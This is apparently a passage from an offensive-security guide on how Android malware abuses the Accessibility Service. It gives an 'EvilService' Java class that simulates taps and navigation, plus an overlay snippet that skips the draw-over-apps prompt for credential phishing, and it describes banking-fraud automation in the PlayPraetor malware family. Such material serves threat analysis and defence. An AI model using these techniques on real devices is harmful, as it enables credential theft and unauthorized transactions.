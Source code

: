 
## Remote UI automation primitives

```java
public class EvilService extends AccessibilityService {
    @Override
    public void onAccessibilityEvent(AccessibilityEvent event) {
        // harvest text or detect foreground app change
    }

    // Simulate HOME / BACK / RECENTS …
    private void navHome()     { performGlobalAction(GLOBAL_ACTION_HOME); }
    private void navBack()     { performGlobalAction(GLOBAL_ACTION_BACK); }
    private void openRecents() { performGlobalAction(GLOBAL_ACTION_RECENTS); }

    // Generic tap / swipe
    public void tap(float x, float y) {
        Path p = new Path(); p.moveTo(x, y);
        GestureDescription.StrokeDescription s = new GestureDescription.StrokeDescription(p, 0, 50);
        dispatchGesture(new GestureDescription.Builder().addStroke(s).build(), null, null);
    }
}
```

With only these two APIs an attacker can:
* Unlock the screen, open the banking app, navigate its UI tree and submit a transfer form.
* Accept every permission dialog that pops up.
* Install/update extra APKs via the Play Store intent.

---

## Abuse patterns

### 1. Overlay Phishing (Credential Harvesting)
A transparent or opaque `WebView` is added to the window manager:

```java
WindowManager.LayoutParams lp = new WindowManager.LayoutParams(
        MATCH_PARENT, MATCH_PARENT,
        TYPE_ACCESSIBILITY_OVERLAY,                      // ⬅ bypasses SYSTEM_ALERT_WINDOW
        FLAG_NOT_FOCUSABLE | FLAG_NOT_TOUCH_MODAL,       // touches still reach the real app
        PixelFormat.TRANSLUCENT);
wm.addView(phishingView, lp);
```

The victim types credentials into the fake form while the background app receives the same gestures – no suspicious "draw over other apps" prompt is ever shown.

> Detailed example: the *Accessibility Overlay Phishing* section inside the Tapjacking page.

### 2. On-Device Fraud automation
Malware families such as **PlayPraetor** maintain a persistent WebSocket channel where the operator can issue high-level commands (`init`, `update`, `alert_arr`, `report_list`, …).  The service translates those commands into the low-level gestures above, achieving real-time unauthorized transactions that easily bypass multi-factor-authentication tied to that very device.
